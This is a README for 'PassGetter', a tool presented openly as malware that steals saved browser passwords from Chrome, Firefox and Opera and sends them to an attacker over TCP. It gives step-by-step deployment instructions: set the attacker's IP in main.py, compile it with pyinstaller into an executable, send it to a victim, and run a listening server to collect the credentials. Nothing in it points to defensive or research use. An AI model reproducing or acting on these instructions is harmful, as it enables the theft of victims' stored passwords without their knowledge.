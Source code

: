 # PassGetter
Extract saved passwords of the browsers (i.e Chrome, Firefox, Opera) in the form of .db files and transfer em to the attacker via sockets

## How it works
![alt text](https://media.discordapp.net/attachments/733792205663371286/755806305016610842/image.png)

Basically when u send the file to the victim's computer it processes the system information (OS name) and then it searches for the path to the saved credentials of the browser (look into the code for more info) after that it extracts the data in a .db format and sends it to the attacker via TCP.

## How to make it work

Put the ip address to your machine in _main.py_  on line 82
```
host = "<Your_IP>"
```
Convert the _main.py_ to _.exe_ or a linux binary executable using pyinstaller
```
pyinstaller --path <Path to Python>\Python\Lib\site-packages\pywin32_system32 --onefile main.py
``` 
Then send it to the victim and run the _server.py_ inside the sockets folder
```
python3 server.py
```
and wait for the magic to happen

## Requirements

Make sure to install the requirements before converting it to _.exe_ or else the conversion will fail
```
pip install -r requirements.txt
```

## Credits
<ul>
<li>[!Firefox Pass Extraction - unode] (https://github.com/unode/firefox_decrypt/blob/master/firefox_decrypt.py)</li>
<li>[!Chrome Pass Extraction - Stackoverflow] (https://stackoverflow.com/questions/61099492/chrome-80-password-file-decryption-in-python)</li>
